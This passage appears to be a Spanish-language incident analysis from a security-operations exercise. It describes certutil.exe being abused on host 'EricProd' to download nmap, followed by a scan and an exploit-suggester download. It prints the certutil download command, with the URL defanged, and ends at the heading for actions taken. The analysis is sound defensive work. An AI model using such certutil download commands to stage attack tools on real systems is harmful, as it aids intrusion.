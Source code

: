 ## Criticidad 

En este caso la criticidad depende de para qué se usa la herramienta, en el caso de utilizarla para descargar y ejecutar archivos maliciosos, el riesgo de compromiso del sistema es mayor en comparación con usos legítimos, como la administración de certificados.
## Descripción del incidente 

El incidente ocurre cuando se detecta un uso raro de la herramienta certutil.exe, siendo el comando el siguiente:

```perl
certutil.exe -urlcache -split -f hXXps://nmap[.]org/dist/nmap-7.92-win32.zip nmap.zip
```

Esto ha sucedido en la IP 172.16.17.22 con nombre de host "EricProd".

En este caso vemos que el comando está descargando el binario de nmap en el sistema, una herramienta usada para escanear dispositivos y redes, algo muy útil por un atacante. Si miramos los comandos ejecutados en el host vemos que ha sido ejecutado:

![](imgcarlos/20240428031208.png)

Como vemos no solo se ha descargado un binario de nmap y ha realizado un escaneo, si no que también ha descargado un consejero de exploits para windows.

![](imgcarlos/20240428031316.png)
## Acciones tomadas
